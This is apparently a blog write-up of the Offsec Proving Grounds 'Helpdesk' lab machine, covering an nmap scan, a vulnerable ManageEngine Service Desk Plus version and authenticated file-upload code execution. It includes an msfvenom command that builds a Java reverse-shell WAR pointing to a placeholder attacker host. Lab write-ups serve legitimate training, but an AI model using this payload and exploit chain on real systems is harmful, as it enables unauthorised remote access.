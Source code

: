 ```yaml
---
title: "Proving grounds Practice: Helpdesk"
layout: post
date: 2023-08-27 03:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
```

## Web PORT: 8080

ManageEngine Service Desk Plus version 7.6.0

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/mengine.png)

The ManageEngine Service Desk Plus version 7.6.0 is vulnerable to authenticated [Remote Code Execution](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py) vulnerability via file upload.

## Create reverse TCP shell to upload

```sh
msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war > shell.war
```

As specified in the code create a java reverse shell in the `.war` file format to upload.

Run netcat listener.

Run the exploit code.

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/upload.png)

**Reverse Shell Obtained**

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/shell.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).